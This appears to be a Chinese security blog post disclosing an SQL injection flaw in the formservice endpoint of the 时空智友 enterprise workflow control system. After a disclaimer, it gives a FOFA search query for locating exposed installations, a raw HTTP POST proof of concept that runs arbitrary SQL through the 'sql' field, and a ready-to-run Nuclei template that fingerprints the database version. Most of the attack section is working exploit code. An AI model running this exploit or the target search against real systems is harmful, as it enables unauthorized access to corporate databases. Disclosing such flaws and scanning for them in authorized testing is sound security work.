 #  时空智友企业流程化管控系统 formservice SQL注入漏洞   
原创 lcyunkong  云途安全   2024-04-21 18:44  
  
**0x00 阅读须知**  
  
****  
**免责声明：****本文提供的信息和方法仅供网络安全专业人员用于教学和研究目的，不得用于任何非法活动。读者若使用文章内容从事任何未授权的行为，需自行承担所有法律责任和后果。本公众号及作者对由此引起的任何直接或间接损失不负责任。请严格遵守相关法律法规。**  
###   
### 0x01 漏洞简介  
  
  
时空智友企业流程化管控系统是一个用于企业流程管理和控制的软件系统。它旨在帮助企业实现流程的规范化、自动化和优化，从而提高工作效率、降低成本并提升管理水平。时空智友企业流程化管控系统formservice存在SQL注入漏洞。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Z8DAfzBiajSaPOwSu7libKK8SGMGJboWtlxa81ev08iaj0Jp7GzFNt1SSJjUibLia8ja2FK5WUAZF6LNG8649ic2FDUQ/640?wx_fmt=png&from=appmsg "")  
###   
### 0x02 漏洞详情  
  
****  
**fofa：****body="企业流程化管控系统" || app="时空智友V10.1"**  
  
****  
**Poc：**  
```
POST /formservice?service=workflow.sqlResult HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Content-Type: application/json
Accept-Encoding: gzip
Content-Length: 50

{"params":{"a":"11"},"sql":"select 123456"}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Z8DAfzBiajSaPOwSu7libKK8SGMGJboWtlFIaGnj3B6L8cicS4KJM9ib54ziclrSte0Aib2P3YNhV3ao3wySgTGExWSw/640?wx_fmt=png&from=appmsg "")  
  
**0x03 Nuclie**  
  
```
id: shikongzhiyou-formservice-sqli

info:
  name: shikongzhiyou-formservice-sqli
  author: unknow
  severity: high
  description: 时空智友企业流程化管控系统 formservice SQL注入漏洞
  tags: shikongzhiyou,sqli
  metadata:
    fofa-qeury: body="企业流程化管控系统" || app="时空智友V10.1"

http:
  - raw:
      - |              
        POST /formservice?service=workflow.sqlResult HTTP/1.1
        Host: 
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
        Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
        Connection: keep-alive
        Content-Type: application/json
        Accept-Encoding: gzip
        Content-Length: 50
        
        {"params":{"a":"11"},"sql":"select @@version"}

    matchers:     
      - type: dsl
        name: sqli
        dsl:
          - (status_code==200 )  && contains(body, "Microsoft SQL Server")

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Z8DAfzBiajSaPOwSu7libKK8SGMGJboWtlwPTFEia2RTJcC1Tm22SmvHbKcd5J9UOsFnopokLXRlvdAznjEBIPwkQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
